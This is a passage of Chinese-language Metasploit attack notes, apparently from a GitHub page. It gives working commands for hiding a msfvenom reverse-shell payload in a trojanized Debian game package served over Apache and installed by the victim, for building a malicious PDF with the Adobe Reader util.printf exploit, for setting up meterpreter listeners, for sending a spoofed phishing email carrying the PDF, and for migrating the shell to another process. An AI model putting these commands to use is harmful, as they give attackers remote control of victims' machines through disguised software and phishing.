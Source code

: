 ```shell
msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=<selfip> LPORT=443 -b "\x00" -f elf -o /tmp/evil/work/usr/games/freesweep_scores

chmod 755 postinst
dpkg-deb --build /tmp/evil/work
cd /tmp/evil
mv work.deb freesweep.deb
cp freesweep.deb /var/www/html
service apache2 start
```

在msfconsole中监听443端口：
```shell
msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x86/shell/reverse_tcp; set LHOST <selfip>; set LPORT 443; run; exit -y"
```

Remote:
```shell
wget http://<selfip>/freesweep.deb
sudo dpkg -i freesweep.deb
```

### 客户端漏洞利用

Example: Adobe Reader ‘util.printf()’ JavaScript Function Stack Buffer Overflow Vulnerability

木马构建：
```
use exploit/windows/fileformat/adobe_utilprintf
set FILENAME BestComputers-UpgradeInstructions.pdf
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.8.128
set LPORT 4455
show options
exploit
```

本机监听：
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4455
set LHOST 192.168.8.128
exploit
```

sendEmail脚本：
```
sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
```

迁移shell至不同的进程：
```
meterpreter > ps
meterpreter > run post/windows/manage/migrate
```

